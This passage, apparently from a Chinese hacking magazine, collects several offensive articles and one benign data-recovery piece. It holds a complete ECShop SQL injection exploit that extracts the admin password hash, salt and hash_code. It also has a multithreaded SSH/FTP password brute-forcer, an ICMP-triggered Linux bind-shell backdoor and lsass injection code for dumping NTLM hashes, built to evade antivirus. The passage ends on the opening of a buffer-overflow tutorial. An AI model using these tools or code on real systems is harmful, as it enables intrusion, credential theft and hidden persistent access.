    url = attackurl + "/flow.php"
    goods_number = postdata(url, regex=r"goods_number\[.*\]")
    goods_num = goods_number[1]

    data = {"%s" % (goods_num): "1", "submit": "%B8%FC%D0%C2%B9%BA%CE%EF%B3%B5", "step": "update_cart"}
    update_cart = postdata(url, data, regex=ur"购物车更新成功")

    new_price = postdata(url, regex=ur"购物金额小计\s\S(\d{1,10})")
    if new_price[1]:
        res_price = int(new_price[1]) - int(price[1])
        passwd = binascii.a2b_hex(str(res_price))

    # 清空购物车
    url = url + "/flow.php?step=clear"
    postdata(url)
    return passwd

def get_salt():
    sql = "2') and 1=2 union select hex(substring(ec_salt from 1 for 4)) from ecs_admin_user where user_id=1 order by attr_price desc #"
    print "salt is : " + sqlinjection(sql)

def get_hash_code():
    passwd = ""
    for x in range(0, 8):
        sql = "2') and 1=2 union select hex(substring(value from %d for 4)) from ecs_shop_config where code='hash_code' order by attr_price desc #" % (1 + x * 4)
        passwd += sqlinjection(sql)
    print "hash_code is : " + passwd

def get_admin_pass():
    global passwd
    passwd = ""
    for x in range(0, 8):
        sql = "2') and 1=2 union select hex(substring(password from %d for 4)) from ecs_admin_user where user_id=1 order by attr_price desc #" % (1 + x * 4)
        passwd += sqlinjection(sql)
    print "admin_password is : " + passwd
    get_salt()
    get_hash_code()

if __name__ == "__main__":
    s = requests.Session()
    url = attackurl + "/goods.php?id=9"   # 如果不存在就要修改下 id
    infomation(url)
    print "开始破解...(时间有点长,请耐心等待)"
    get_admin_pass()


```

此段代码编译运行的结果如图5所示。
图5

我们还可以打开调试信息，观察每一次提交返回的数据，用于排查错误。实现代码如下：

```python
# -*- coding: cp936 -*-
#/usr/bin/env python
#code by 花开、若相惜
import urllib2, cookielib, requests
import re, binascii
import sys, os

"""
ecshop 二次注入
blog:huakai.paxmac.org
email:huakai@paxmac.org
"""

attackurl = raw_input("输入漏洞网站：")

def postdata(url, data="", regex=""):
    r = s.post(url, data)
    result = r.text
    if regex != "":
        reg = re.findall(regex, result)
        if reg:
            return result, reg[0]
    else:
        return result

def infomation(url):
    global spec, goods, price
    goods = re.findall(r'id=(\d{1,5})', url)
    if goods:
        print "Find goods id is : " + goods[0]

    spec = postdata(url, regex=r"spec_value_(\d{1,10})")
    if spec[1]:
        print "Find spec is : " + spec[1]

def sqlinjection(sql):
    post_data = '{"goods":"""{"quick":1,"spec":["%s","%s"],"goods_id":%s,"number":"1","parent":0}"""%(spec[1],sql,goods[0])}'
    url = attackurl + "/flow.php?step=add_to_cart"
    price = postdata(url, post_data, regex=ur"总计金额\s\S(\d{1,10})")

    if price[1]:
        print "总金额：" + str(price[1])

    url = attackurl + "/flow.php"
    goods_number = postdata(url, regex=r"goods_number\[.*\]")

    if goods_number[1]:
        goods_num = goods_number[1]
        print "Find goods_number is : " + goods_num

    data = {"%s" % (goods_num): "1", "submit": "%B8%FC%D0%C2%B9%BA%CE%EF%B3%B5", "step": "update_cart"}
    update_cart = postdata(url, data, regex=ur"购物车更新成功")
    if update_cart[1]:
        print update_cart[1]

    new_price = postdata(url, regex=ur"购物金额小计\s\S(\d{1,10})")
    if new_price[1]:
        print "更新后价格: " + str(new_price[1])
        res_price = int(new_price[1]) - int(price[1])
        passwd = binascii.a2b_hex(str(res_price))

    # 清空购物车
    url = url + "/flow.php?step=clear"
    postdata(url)
    return passwd

def get_salt():
    sql = "2') and 1=2 union select hex(substring(ec_salt from 1 for 4)) from ecs_admin_user where user_id=1 order by attr_price desc #"
    print "salt is : " + sqlinjection(sql)

def get_hash_code():
    passwd = ""
    for x in range(0, 8):
        sql = "2') and 1=2 union select hex(substring(value from %d for 4)) from ecs_shop_config where code='hash_code' order by attr_price desc #" % (1 + x * 4)
        passwd += sqlinjection(sql)
        print passwd
    print "hash_code is : " + passwd

def get_admin_pass():
    global passwd
    passwd = ""
    for x in range(0, 8):
        sql = "2') and 1=2 union select hex(substring(password from %d for 4)) from ecs_admin_user where user_id=1 order by attr_price desc #" % (1 + x * 4)
        passwd += sqlinjection(sql)
        print passwd
    print "admin_pass is : " + passwd

get_salt()
get_hash_code()

if __name__ == "__main__":
    s = requests.Session()
    url = attackurl + "/goods.php?id=9"
    infomation(url)
    get_admin_pass()
```

此段代码编译运行后的结果如图6所示。

```text
Find_goods_number_is : goods_number[465]
购物车更新成功
更新后价格：35658759
e1f79b4eba7daa9a06695eda
总金额：2298
Find_goods_number_is : goods_number[466]
购物车更新成功
更新后价格：62645730
e1f79b4eba7daa9a06695edabd42
总金额：2298
Find_goods_number_is : goods_number[467]
购物车更新成功
更新后价格：38625531
e1f79b4eba7daa9a06695edabd428b23
password is : e1f79b4eba7daa9a06695edabd428b23
总金额：2298
Find_goods_number_is : goods_number[468]
购物车更新成功
更新后价格：32365936
salt is : 2668
总金额：2298
Find_goods_number_is : goods_number[469]
购物车更新成功
更新后价格：33315937
```

图6

本文提供了一个编写 EXP 的思路，网上应该还没有这样写 EXP 的，这个漏洞确实还是挺有意思的。我抛弃了传统的 like/regexp 编写 EXP 的思路，为了提高更快的速度，给出了一个新的思路。这里也只是抛砖引玉，如果大家有更好的方法可以实现，可以共同交流。

（完）

## 多线程暴力破解SSH和FTP登录密码

文/图 DebugMe

暴力破解登录密码的原理非常简单，就是对所有用户名和密码组合进行尝试。由于这个组合数可能非常大，若一个一个地进行尝试，则会非常耗时。为了加快破解速度，我们可以充分利用现代 CPU 的多核特性和操作系统的多线程机制。本文将实现一个基于多线程的密码暴力破解工具（针对 SSH 和 FTP）。

密码破解可以分为两种方式：在线和离线。前者需要通过和服务器交互，将用户名和密码发送给服务器进行验证，进而判断是否合法，因此使用在线方式破解密码时，我们必须知道与服务器交互的数据包格式；另外，由于每次尝试都需要连接服务器以及发送接收数据包，因此尝试一次用户名和密码的速度会比较慢（所以更需要多线程来加快破解速度）。对于后者，则不需要连接服务器，比如拿到了密码的哈希值，在本地对哈希值进行破解，所以进行一次尝试的速度会快些。本文针对的 SSH 和 FTP 都是在线方式破解。

## 准备工作——了解 SSH 和 FTP 的登录数据包格式

对于 SSH，可在网上下载到一个开发包 libssh，利用这个开发包可以非常方便地建立 SSH 连接和用户验证，省去了不少工作量。这里需要特别注意的是，必须在程序开始的时候调用一次 ssh_init，否则 libssh 的相关函数在多线程环境中会崩溃。对于 FTP，相信大家不会陌生，其登录验证过程非常简单，发送 USER 和 PASS 命令并判断返回码即可。

## 代码实现

ICrackProvider 接口提供一个虚函数，该虚函数检查用户名和密码是否合法。

```cpp
class __declspec(novtable) ICrackProvider
{
public:
    virtual
    bool CheckUsernameAndPassword(const char* Username, const char* Password) = 0;
};
```

CFtpProvider 和 CSshProvider 继承 ICrackProvider，并各自实现了 CheckUsernameAndPassword 函数。当然，读者还可以自己实现 HTTP 以及 POP3 等协议，只需要继承 ICrackProvider 并实现 CheckUsernameAndPassword 函数即可。

```cpp
class CFtpProvider : public ICrackProvider
{
private:
    SOCKET Sock;
    char ServerAddr[16];
    unsigned short FtpPort;
private:
    bool FtpConnect();
    bool FtpUserAuth(const char* Username, const char* Password);
    void FtpDisconnect();
public:
    CFtpProvider(const char* Server, unsigned short Port);
    virtual bool CheckUsernameAndPassword(const char* Username, const char* Password);
};
```

```cpp
bool CFtpProvider::CheckUsernameAndPassword(const char* Username, const char* Password)
{
    if (FtpConnect() == false)
        return false;
    if (FtpUserAuth(Username, Password) == false)
    {
        FtpDisconnect();
        return false;
    }
    else
    {
        FtpDisconnect();
        return true;
    }
}
```

JobDispatcher 类实现字典文件的加载以及任务分发。LoadDic 用于加载字典，保存在一个 vector 中。

```cpp
bool CJobDispatcher::LoadDicFile(const char* FileName, vector<string>& StringList)
{
    FILE* File;
    char TempBuffer[128];
    string TempString;
    if (fopen_s(&File, FileName, "r") != 0)
        return false;
    while (fscanf(File, "%s", TempBuffer) != EOF)
    {
        TempString = TempBuffer;
        StringList.push_back(TempString);
    }
    fclose(File);
    return true;
}
```

## 多线程密码暴力破解器实现

GetJobBlock 从任务分配器中获取一个任务。JobDispatcher 将用户名和密码组成一个逻辑上的二维数组，每次调用 GetJobBlock 时，从该数组中返回一个 block，一个 block 包含一部分用户名和密码。

CCrackWorker 类通过 CJobDispatcher 的 GetJobBlock 获取任务，并调用 ICrackProvider 的 CheckUsernameAndPassword 判断用户名和密码是否正确。

```cpp
int CCrackWorker::DoCrackJob()
{
    CJobDispatcher::JobBlock JobBlock;
    bool IsValid;
    char* Username;
    char* Password;
    if (JobDispatcher->GetJobBlock(&JobBlock))  // 获取任务
    {
        for (unsigned int i = JobBlock.PasswordStartIndex; i < JobBlock.PasswordEndIndex; i++)
            for (unsigned int j = JobBlock.UsernameStartIndex; j < JobBlock.UsernameEndIndex; j++)
            {
                CallbackContext Context;
                Username = const_cast<char*>((*(JobBlock.UsernameList))[j].c_str());
                Password = const_cast<char*>((*(JobBlock.PasswordList))[i].c_str());
                if (PreCheckLogin != NULL)
                {
                    Context.Username = Username;
                    Context.Password = Password;
                    Context.IsValid = false;
                    // 检查用户名密码之前调用回调函数
                    if (PreCheckLogin(&Context, PreCheckArgument) == 0)
                        return 0;
                }
                // 对用户名和密码进行验证
                IsValid = CrackProvider->CheckUsernameAndPassword(Username, Password);

                if (PostCheckLogin != NULL)
                {
                    Context.Username = Username;
                    Context.Password = Password;
                    Context.IsValid = IsValid;
                    // 检查用户名密码之后调用回调函数
                    if (PostCheckLogin(&Context, PostCheckArgument) == 0)
                        return 0;
                }
            }
        return 1;
    }
    else
        return 0;
}
```

CWorkingThreadPool 类提供破解的多线程支持。

```cpp
unsigned int __stdcall CrackThread(void* pContext)
{
    assert(pContext != NULL);
    CWorkingThreadPool::ThreadContext* pThreadContext;
    CCrackWorker* pCrackerWorker;
    CWorkingThreadPool* pWorkingThreadPool;
    CWorkingThreadPool::CallbackParam CallbackParam;
    pThreadContext = reinterpret_cast<CWorkingThreadPool::ThreadContext*>(pContext);
    pCrackerWorker = pThreadContext->pCrackWorker;
    pWorkingThreadPool = pThreadContext->pWorkingPool;
    assert(pCrackerWorker != NULL);

    CallbackParam.nThreadIndex = pThreadContext->nThreadIndex;
    CallbackParam.pWorkingPool = pWorkingThreadPool;
    // 设置回调函数
    pCrackerWorker->SetPreCheckLoginCallback(PreLoginCheck,
        reinterpret_cast<void*>(&CallbackParam));
    pCrackerWorker->SetPostCheckLoginCallback(PostLoginCheck, NULL);
    while (!pWorkingThreadPool->ShouldStopThreads())
    {
        // 调用 CCrackWorker 的 DoCrackJob 验证用户名密码
        if (pCrackerWorker->DoCrackJob() == 0)
        {
            pWorkingThreadPool->StopWorkingThreads();
            break;
        }
    }
    return 1;
}
```

```cpp
bool CWorkingThreadPool::CreateWorkingThread(CCrackWorker* pCrackWorker, int ThreadIndex)
{
    int nThreadHandle;
    CWorkingThreadPool::ThreadContext* pThreadContext;
    pThreadContext = new CWorkingThreadPool::ThreadContext();
    if (pThreadContext == NULL)
        return false;
    pThreadContext->nThreadIndex = ThreadIndex;
    pThreadContext->pCrackWorker = pCrackWorker;
    pThreadContext->pWorkingPool = this;
    // 创建破解线程
    nThreadHandle = _beginthreadex(NULL,
                                   0,
                                   CrackThread,
                                   pThreadContext,
                                   CREATE_SUSPENDED,
                                   NULL);
    if (nThreadHandle == 0)
    {
        delete pThreadContext;
        return false;
    }
    this->m_ThreadHandles.push_back(nThreadHandle);
    this->m_ThreadContexts.push_back(pThreadContext);
    return true;
}
```

在 main 函数中，根据参数创建指定数目的破解线程进行破解。

```cpp
for (int i = 0; i < ThreadCount; i++)
{
    if (_strcmp("ssh", CrackType) == 0)
        CrackProvider = new CSshProvider(ServerAddr, Port);
    else if (_strcmp("ftp", CrackType) == 0)
        CrackProvider = new CFtpProvider(ServerAddr, Port);
    else
        goto _end;
    if (CrackProvider == NULL)
        goto _end;

    CrackProviders.push_back(CrackProvider);
    // 创建 CCrackWorker 实例
    CrackWorker = new CCrackWorker(JobDispatcher, CrackProvider);
    if (CrackWorker == NULL)
        goto _end;

    CrackWorkers.push_back(CrackWorker);
    // 创建线程
    ThreadPool->CreateWorkingThread(CrackWorker, i);
}
ThreadPool->StartWorkingThreads();  // 启动线程
ThreadPool->WaitWorkingThreads();   // 等待破解线程结束


```

到此，基本实现了一个基于多线程的密码暴力破解器，其运行效果如图 1 和图 2 所示。破解完成后，正确的用户名与密码保存在当前目录的 `result.txt` 中。
图 1 帮助界面
图 2 运行截图

这里需要注意一点：不要创建太多的线程，有些服务器限制了并发连接的最大数量（比如笔者测试环境中的 Ubuntu 的 SSH 限制为 10），若超过了则会出现连接失败。

### Linux 后门技术研究之 ping 后门

文/图 Blackcool

前面几篇文章主要讲解了 login 后门及正向连接后门，其中 login 后门通过对比文件 hash 的方法进行检测。正向连接后门的一个致命弱点就是开启并占用一个端口，有经验的管理员会很容易发现端口被占用，通过这个线索就能找到留下的后门。本文要介绍的后门在一定程度上就可以弥补这一不足。这个后门运行后不会开启端口，仅当接收到一定格式的 ping 包后才会开启端口，具有一定的隐蔽性。

下面来说说 ping 后门的思路吧。

首先创建一个 ICMP 协议的 RAW Socket，因为 ping 包走的是 ICMP 协议。之后循环等待数据包，接收到 ping 包后判断其长度，如果长度是我们预设的值，就开启后门功能，这时对后门进行连接就可以成功登录并进行控制了。如果 ping 包长度不是预设值，则继续循环等待数据包。

程序框架简要如下：

```c
int main(int argc, char *argv[])
{
    // 创建 socket
    proto = getprotobyname("icmp");
    if ((s = socket(AF_INET, SOCK_RAW, proto->p_proto)) < 0)
        exit(0);

    // 循环等待数据包
    while (1)
    {
        do
        {
            fromlen = sizeof(from);
            // 判断数据包长度
            if ((size = recvfrom(s, pkt, sizeof(pkt), 0, (struct sockaddr *)&from, &fromlen)) < 0)
                printf("ping of %i\n", size - 28);
        } while (size != SIZEPACK + 28);

        // 开启后门功能或继续等待数据包
        switch (fork()) {
            case -1:
                continue;
            case 0:
                bind_shell();
                exit(0);
        }
    }

    sleep(15);
}
}


```

思路很简单很清晰，下面看下这个传说中的 ping 后门要如何使用吧。首先编译后门，完整源代码详见 pingshell.c。编译后生成 pingshell 文件，这个就是我们的后门程序了。启动 ping 后门，使用命令：pingshell 1017 5555。命令的意思是，当接收到长度为 1017 的 ping 包后，在本机的 5555 端口上开启后门。之后我们就可以对其进行远程连接了，下面使用 nc 进行连接，如图 1 所示。
图 1

可以看到连接成功，并执行 ls、id 等命令都可以得到正常的回显。ping 后门就为大家介绍到这里，希望对大家有所帮助。

### 已删除文件树构建及文件恢复实践

文/图 倪程

随着信息技术的不断发展，计算机在社会和生活中扮演着日益重要的角色。越来越多的企业、商家、政府机关和个人将自己最重要的信息以数据文件的形式保存在计算机中。一旦电脑或者软件系统不可避免地出现差错从而导致数据丢失，如何能够迅速而正确地恢复就成为了至关重要的问题，这就使得数据恢复技术不论对个人、企业还是国家都显得日益重要。

### FAT32 已删除文件树构建算法

FAT32 文件系统对数据区存储空间按簇进行划分和管理。簇是空间分配和回收的基本单位，即一个文件总是占用若干个整簇，文件所使用最后一簇的剩余空间就不再使用。簇的大小对文件系统的性能影响很大，当簇较大时，磁盘空间浪费往往较大，但存取效率往往较高；当簇较小时，磁盘空间可以得到有效利用，但存取效率往往很低。一般来说，一个簇往往取 2 的整数幂的扇区大小，大分区一个簇分配的扇区数往往要比小分区多。实际应用中，簇所占的扇区数大小存放在分区的 BPB 表中。

FAT 文件系统为了实现目录间的双向联系，使系统能在目录之间进行有效切换，在每个子目录中都添加了“.”及“..”目录。其中“.”代表当前目录自身，“..”代表当前目录的父目录，指向父目录的起始簇号。故只要是目录文件，其最前面两个 32 字节在偏移 00H 处的值必然是 0x202E 及 0x2E2E。而且，目录及文件的首个扇区的前 32 字节偏移 1AH、1BH 处的两字节内容存放了它们的首簇号低 16 位。所以，当假定一个首簇号后，即可定位到指定的目录区位置，直接读取目录区位置，判断前两个 32 字节中的偏移 00H 处的值，若满足 0x202E、0x2E2E 及其偏移 1AH 处的两字节为首簇号低 16 位，则可能是需要寻找的首簇号，若不然，则一定不是当前寻找的首簇号。

经过大量的实验分析，发现此方法让首簇号匹配成功的概率极大，因为首簇号高 16 位的值一般不会很大，即用户一般不会定义一个极大的逻辑分区。一个 200G 的分区，其循环次数也大概只有 230 次，故循环的次数必然很少。那么在循环次数很少的情况下，又能够准确地实现：首簇号低 16 位相同的情况下，假定一个首簇号高 16 位，组合成一个完整的首簇号，映射的数据区正好是一个目录区，这种匹配不成功的概率值太小。但反过来，若高 16 位相同，去匹配低 16 位，发现目录区而它又不是需要寻找的首簇号，这种概率可能会高出许多。这主要是因为其循环匹配的次数太多，值可以从 0 直到 0xFFFF，共循环 65535 次。

文件被删除时，不管其父目录、祖父目录等上层目录是否删除，在算法设计中，都需要将它们作为一个新的节点插入到重构的目录树中。因此，从根目录区开始遍历，只要发现目录文件，则获取文件的首簇号、文件目录名、MAC 时间等各种属性值，并将其作为一个新节点插入到已删除文件及目录的临时目录树中。遍历完整个目录区中的所有文件及目录后，再对临时目录树中的目录节点进行判断，将目录文件的首簇号映射到其对应的目录区，依次遍历此目录区中的所有文件及子目录，判断是否存在删除文件及目录，一旦发现，则立即返回 TRUE，否则深层次递归，直到遍历完所有的深层次子目录及文件。

因为 FAT 文件系统是一个倒型树结构，故程序设计时，为了缩短目录树构建的时间开销，可以每次只构建某一目录层次下的所有子目录及文件，在取证人员需要查看目录树中某一特定目录时，通过点击此目录再显示其目录下的文件及子目录。针对目录及其下的子目录及文件均被删除的情况，本文不再详细论述，因为只要是目录被删除，不管其子目录或文件是否删除，该目录节点肯定出现在已删除文件及目录的重构树中。任一 FAT 结构的逻辑分区中已删除文件及目录树的重构算法如图 1 所示。通过图中给出的目录树重构算法，可以完整地构建出 FAT 结构下的所有已删除文件目录树。
图 1 已删除目录及文件的目录树重构算法

## NTFS 已删除文件树构建算法

NTFS 文件系统的一大特点是所有的数据，包括系统信息，如引导程序、记录整个卷分配状态的位图等，都以文件的形式存在。MFT 是 NTFS 卷结构的核心，系统通过 MFT 来确定文件在磁盘上的位置以及文件的所有属性。NTFS 的结构原理这里就不再赘述了，读者可参考戴士剑老师编写的《数据恢复技术》第 2 版。

通过遍历 NTFS 卷下所有的 MFT 表项，就可很清楚地判断文件是否删除，以及文件名、文件数据起始簇号、簇数等信息。那么如何将已删除文件及目录组合起来呢？笔者采用的是从目录树的底部开始逐渐往上构建整个目录树。算法基本流程如下：

- 1. 读取 `$MFT` 表项中 `$80` 属性下的簇运行列表，获取每个簇运行结构的起始簇号与簇数，再根据首簇号和簇数，循环遍历 NTFS 卷下每个簇运行结构中所有的 MFT 表项。
- 2. 读取 MFT 表头，判断文件及目录是否删除。若目录及文件未删除，则直接忽略此 MFT 表项，转下一个表项；否则 new 一个新节点结构，获取表项中 `$30` 属性下的文件名或目录名及父目录的 MFT 参考号。
- 3. 若父目录的 MFT 参考号不是 `0x05`（即根目录下的文件或子目录），则转步骤（4）；然后再判断此 MFT 对应的是文件还是目录。若为非目录文件，则读取 `$80` 属性值，获取文件数据或文件数据的首簇号及簇数，存储到新节点结构体中，然后将此节点插入到目录树中；若为目录文件，则直接将此节点插入到目录树中。
- 4. 根据父目录的 MFT 参考号，读取每个父目录的 MFT 参考号，获取目录的文件名，然后再调用搜索函数，在已部分构建的目录树中寻找此文件是否在目录树中。若没有搜索到，则 new 一个新节点，并将文件名、文件及父目录的 MFT 参考号分别保存在该节点中，再判断此目录是否为根目录。若非根目录，则保存此节点到目录树结构体的 Vector 数组中后递归调用，转步骤（4）继续读取其父目录的 MFT 号；若为根目录，则将此节点插入到目录树合适节点下；若搜索到了，则直接返回。

这样，即可全部获取 NTFS 卷分区中所有的已删除文件及目录，并构建好整个目录树结构。

下面给出具体如何将节点插入到目录树中。笔者设计了一种规则二叉树构建算法，具体如图 2 所示。
图 2 构建有规则的二叉树

图 2 中给出的规则树定义如下：

- 1. 树中各节点代表目录或已删除文件，且节点的左子节点称为该节点的孩子节点，位于该节点的下一级目录。右节点则与该节点位于同一级目录。
- 2. 头节点 A 不代表任何含义，只为目录树的头节点，且节点 C、F 均为根目录下节点。
- 3. 若 E 节点为非目录文件，则 K 及其各右节点均为非目录节点，即位于同一层的节点。目录节点总是在非目录节点的前面，每次目录节点采用头插法，而文件节点采用尾插法。

上述规则树的定义很好地将目录及子目录、子文件进行了梯次划分。那么假设上面的构建原理成立，如何排除图 2 中的正常目录节点（目录下的所有文件及深层子目录下的文件都不存在删除情况）呢？

排除正常目录节点的方法如下：从根节点开始，遍历右节点，直到某节点不再是目录节点为止。依次对目录节点进行判断，若目录节点下存在文件节点，则跳过此节点；若此目录节点下不存在左孩子节点，则删除此目录节点，并将目录的右孩子节点直接指向它的父节点；若存在目录节点，则深层次递归判断是否存在文件节点，若不存在，则直接将此目录及其目录下的所有节点全部裁剪。通过上面的方式，如构建目录树的原理可行，则可完全借助程序编码实现 NTFS 卷分区下已删除文件的目录树重构。

## 数据恢复实践

在非常驻 `$80` 属性下，记录了文件数据的数据运行列表。通过数据运行列表可以看出文件是否连续存储。如果数据运行结构有且仅有一个，则文件在磁盘上连续存储；反之，若运行结构不止一个，则断定文件在磁盘上离散存储。需要注意的是，数据运行列表中，每个运行结构中表示的首簇号总是前一个首簇号的相对偏移，且必须满足：当前簇号占一个字节时，其值不超过 `0x80`，否则需要取负值。

如何将已经构建好的层次目录树更好地在软件框架中显示（即先显示根目录，然后再依次显示其下的深层次子目录及文件）？本文采用了先遍历头节点，再遍历右节点，最后遍历左节点的方法对二叉树进行完整遍历，然后将节点分为目录节点及非目录节点，分别显示在软件框架的左右两侧。其中右侧的文件，在显示之前笔者通过动态数组对文件数据的首簇号及簇数事先保存下来，以便取证分析员有效地进行数据恢复。

当取证分析员或普通用户需要借助本软件进行数据恢复时，只需要选择已删除文件，然后点击恢复即可。软件会直接读取该节点下的数据信息或者首簇号及簇数，最后通过 `ReadFile` 函数将文件从对应的物理扇区中读取，并写入新建的磁盘文件中，完成数据恢复。

#### 小结

本文主要对已删除文件目录树的重构进行了详细分析，并结合目录树的构建以及文件系统结构简要分析了数据恢复方法。本文讲述的数据恢复主要基于文件未被覆盖的情况。对于已经被覆盖的数据、完全低格、全盘清零、强磁场破坏的硬盘，则需要更底层的物理恢复技术实现。

## 编程实现 Windows 用户密码 Hash 值的抓取

文/图 仲夏

在内网渗透过程中，获取 Windows 用户密码 Hash 值后，将能够继续破解明文密码、Hash 注入等后续动作，因此密码 Hash 值具有较大的价值。Windows 系统中存在的用户密码信息一般以 NTLM Hash 值形式存在，只有负责用户权限管理的关键系统进程 `lsass.exe` 能够拥有权限获取。因此，本文主要探讨注入 `lsass` 进程读取 Hash 值的编程实现；关于远程注入的权限等其他问题，不在本文讨论范围之列。

### 远程注入 lsass 进程

关于远程注入的基本原理就不赘述了，关键说一下实现过程中发现的问题。在 Windows Vista 以上版本，时常会遇到 `CreateRemoteThread` 调用出错，如图 1 所示。
图 1

在实现过程中发现，Vista 以后版本按照常规方法调用 `CreateRemoteThread` 函数，通常返回的错误代码为“errorcode=8 存储空间不足”，无法执行此命令。通过搜索，搞懂了其中原理，实现了 `MyCreateRemoteThread` 函数。具体原理可百度“win7 CreateRemoteThread”关键字学习，这里给出实现代码。

```c
HANDLE MyCreateRemoteThread(HANDLE hProcess, LPTHREAD_START_ROUTINE pThreadProc, LPVOID pRemoteBuf)
{
    HANDLE hThread = NULL;
    FARPROC pFunc = NULL;
    if( IsVistaOrLater() )    // Vista 以后操作系统的版本
    {
        printf("win7/vista\n");
        pFunc = GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx");
        if( pFunc == NULL )
        {
            printf("MyCreateRemoteThread(): GetProcAddress 调用失败! 错误代码: [%d]\n", GetLastError());
            return hThread;
        }
        ((PFNTCREATETHREADEX)pFunc)(&hThread,
            0x1FFFFF,
            NULL,
            hProcess,
            pThreadProc,
            pRemoteBuf,
            FALSE,
            NULL,
            NULL,
            NULL,
            NULL);

        if( hThread == NULL )
        {
            printf("MyCreateRemoteThread(): NtCreateThreadEx() 调用失败! 错误代码: [%d]\n", GetLastError());
            return hThread;
        }
    }
    else                    // 2000, XP, Server 2003
    {
        hThread = CreateRemoteThread(hProcess,
            NULL,
            0,
            pThreadProc,
            pRemoteBuf,
            0,
            NULL);
        if( hThread == NULL )
        {
            printf("MyCreateRemoteThread(): CreateRemoteThread() 调用失败! 错误代码: [%d]\n", GetLastError());
            return hThread;
        }
    }

    if( WAIT_FAILED == WaitForSingleObject(hThread, INFINITE) )
    {
        printf("MyCreateRemoteThread(): WaitForSingleObject() 调用失败! 错误代码: [%d]\n", GetLastError());
        return hThread;
    }
    return hThread;
}
```

### 远程线程所做的工作——一切为了躲避查杀

远程线程在 `lsass` 进程中启动后，主要是调用一系列函数读取用户 Hash 值信息。这段代码形式固定单一，如果集成在远程线程代码中，或者生成以 DLL 文件形式存在，很容易被定位查杀。我采取的方式是：这部分核心代码编译为 DLL 并导出，进行随机密钥加密后，以整体逐字节输出为数组形式，嵌入代码中编译生成。如图 2 所示，`pData` 为加密后的 DLL 代码数组，`pKey` 为解密密钥。

```c
extern char pKey[] = {
    0x32,0x0f,0x54,0x57,0xbc,0xa6,0xcd,0x2a,
    0x05,0xe6,0xd1,0x73,0x53,0x5e,0xb3,0x8f,
    0x0c,0x0f,0x01,0x35,0xe8,0xe3,0x69,0x1e,0x89,0x55
};
```

```c
extern char pData[] = {
    0x02,0x5a,0xd3,0x6c,0x53,0xc3,0x59,0x9d,
    0x57,0xee,0x0a,0x8e,0xf9,0x6b,0xb2,0x45
};
```

图 2

通过这样将 DLL 加密集成到自身代码中，运行时通过“解密数据 → 解析 PE 格式加载到内存正确位置 → 修复重定位项 → 修复导入表”四个步骤，实现了 `LoadLibrary` 的大部分功能（没实现调用 `DllMain` 函数），随后调用导出函数即可。

### 题外话——x86/x64 的统一编程问题

在这里和大家探讨一下 x86/x64 两种程序编写上的区别处理与统一问题。

**地址长度问题。**在 64 位环境下，内存地址的长度为 64 位，编程上就应该表现为 `__int64`，区别于 32 位下的 `DWORD`。在编程的时候，以上区别主要麻烦在 PE 结构解析时绝对地址的计算上，总不能为 x86/x64 各准备一套函数。幸运的是，VC 内给出了长度可变的定义：

```c
#if defined(_WIN64)
    typedef unsigned __int64 ULONG_PTR, *PULONG_PTR;
#else
    typedef _W64 unsigned long ULONG_PTR, *PULONG_PTR;
#endif


```

通过预定义宏，编程时将所有绝对地址的表达定义为 `ULONG_PTR` 就能解决内存地址长度问题。

**重定位项的区别。**按照 PE 重定位结构的定义，每个重定位块的表项是一个代表四字节的相对偏移地址，其高 4 位 bit 如果为 0，代表其无意义，该项忽略。实际上我们遇到最多的情况是高 4 位 bit 为 3，如图 3 所示。
图 3

这是我们最熟悉的 32 位程序，但在 64 位程序下，这个值就变为了 10，如图 4 所示。
图 4

因此，在编写 PE 重定位项的处理代码中，需要注意这一点。

### 获取用户 Hash 值的核心代码

获取 Hash 的函数是一些未文档化函数，从 `samsrv.dll` 导出，具体原理本人也不是很清楚，偶尔得到，拿出来大家一起学习，希望有人一起探讨。具体代码请参看附件，不多加赘述。

## Windows 的缓冲区溢出

文/图 王晓松

通常微软在发现漏洞后会公布补丁，而攻击者通过补丁说明和监控补丁执行过程，利用漏洞开发工具定位可能存在攻击点的位置，从而编制溢出程序，攻击未打补丁的系统。这种漏洞如果普通用户打上补丁，就没有任何意义了。而 0day 通常指微软未发现的漏洞，既然未发现，那么自然也无标准补丁可打，因此对于这种 Windows 操作系统的普通用户，只能是“人为刀俎，我为鱼肉”，任人宰割了。缓冲区溢出攻击漏洞几十年来，其攻击思想并没有本质改变。本文将向那些有志于溢出梦想的朋友提供一个入门讲解，希望能对缓冲区溢出的核心思想有所了解。

#### 基础知识

- 1）call 指令和 ret 指令

call 指令和 ret 指令是下面我们讲解内容的基础，因此这里不嫌啰嗦，对 call 指令和 ret 指令背后的动作进行较为详细的讲解。

call 指令通常表现为 `call xxxxxxxx;` 的汇编形式，其背后动作为将“call xxxxxxxx”这条指令后的指令地址压入堆栈，然后跳转到 `xxxxxxxx` 指向的地址执行代码，其执行如图 1 所示。
图 1 call 指令的背后

ret 指令的功能则是弹出当前栈顶单元的内容到 EIP，从而控制程序流程执行 EIP 指向地址的代码，其执行如图 2 所示。
图 2 ret 指令的背后

## 2）Windows 函数调用的结构

了解了 call 指令和 ret 指令，下面我们需要费一番脑筋，看些稍微令人头疼的 C 语言代码和汇编代码，但我保证并不长，也不难。

```c
int ADD(int a, int b)
{
    int c;
    c = a + b;
    return c;
}

int main()
{
    int a, b, c;
    a = 1; b = 1;
    c = ADD(a, b);      // ①
    printf("%d", c);    // ②
}
```

相信上过大二的理工科同学对上述代码不会感到陌生，否则计算机二级是很难通过的。主函数调用 ADD 函数，完成一个相加操作。下面我们将焦点集中在从步骤①开始到步骤②之前，这个简单函数调用背后程序运行的一些细节。

首先说明的是，函数调用规则有很多种，比较典型的是 `_cdecl`（C 方式）、`_stdcall`（标准调用方式，用于 WinAPI）和 `_fastcall`（快速调用方式）等。为了专注于主题，我们仅以 `_cdecl` 为例。这种函数调用过程是：

- 1. 调用者将参数按照从右至左的顺序，使用 `push` 指令压栈；
- 2. 使用 `call` 指令调用函数，返回值通过 `eax` 进行传递；
- 3. 函数返回后，由调用者 `add esp, n` 指令来恢复堆栈，其中 `n` 表示函数参数的长度。

做好以上铺垫，我们看看函数调用的庐山真面目。为了使讲解清楚简单，下面的代码省略了编译器自动添加的一些操作，如 `ebx`、`esi`、`edi` 的压栈出栈。以下代码分为函数调用的实现和 ADD 函数内部的实现。

## 函数调用的实现

```asm
Push b     ; 压入参数 b，对应步骤①
Push a     ; 压入参数 a，对应步骤①
Call ADD   ; 调用子函数，对应步骤②
Add esp,8  ; 调用者清理堆栈，对应步骤③
```

